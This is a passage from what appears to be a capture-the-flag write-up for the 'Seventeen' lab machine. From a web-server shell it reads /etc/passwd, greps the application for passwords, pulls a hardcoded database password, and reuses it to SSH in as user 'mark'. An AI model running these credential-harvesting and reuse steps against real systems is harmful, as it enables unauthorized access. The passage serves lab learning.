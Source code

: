 There is a normal user found : `mark`

```bash
www-data@cb377ac091e5:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

...SNIP...

mark:x:1000:1000:,,,:/var/www/html:/bin/bash
```

There's a credential found in `/var/www/html/employeemanagementsystem`.

```bash
www-data@cb377ac091e5:/var/www/html/employeemanagementsystem$ grep -ir "password" .

...SNIP...

./process/dbh.php:$dbPassword = "2020bestyearofmylife";
./process/dbh.php:$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

...SNIP...
```

Here's the found credential : `root` : `2020bestyearofmylife`

```bash
www-data@cb377ac091e5:/var/www/html/employeemanagementsystem$ cat process/dbh.php
</html/employeemanagementsystem$ cat process/dbh.php          
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

if(!$conn){
        echo "Databese Connection Failed";
}

?>
```

Using the found 2 credentials, I tried to sign-in with multiple usernames.
And the password `2020bestyearofmylife` worked with `mark` on `seventeen.htb` host.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ ssh mark@seventeen.htb
mark@seventeen.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 16 11:31:17 UTC 2025

  System load:                    0.25
  Usage of /:                     60.6% of 11.75GB
  Memory usage:                   54%
  Swap usage:                     0%
  Processes:                      358
  Users logged in:                0
  IP address for eth0:            10.10.11.165
```